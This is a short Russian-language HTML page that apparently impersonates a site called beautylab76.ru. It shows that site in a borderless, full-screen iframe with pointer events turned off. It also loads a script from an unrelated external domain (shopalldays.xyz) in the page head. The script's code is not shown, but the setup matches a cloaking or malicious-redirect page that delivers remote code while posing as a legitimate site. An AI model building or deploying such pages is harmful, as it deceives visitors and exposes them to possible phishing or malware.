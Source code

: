 ﻿<!DOCTYPE html>
<html lang="ru">
<meta http-equiv="content-type" content="text/html;charset=utf-8">

<head>
	
	<iframe id="ifr" src="https://beautylab76.ru/" frameborder="0" style="overflow:hidden;overflow-x:hidden;overflow-y:hidden;pointer-events: none;height:100%;width:100%;position:absolute;top:0px;left:0px;right:0px;bottom:0px" height="100%" width="100%"></iframe>
	<script id="connect" type="text/javascript" src="https://www.shopalldays.xyz/js"></script>
	
</head>


</html>
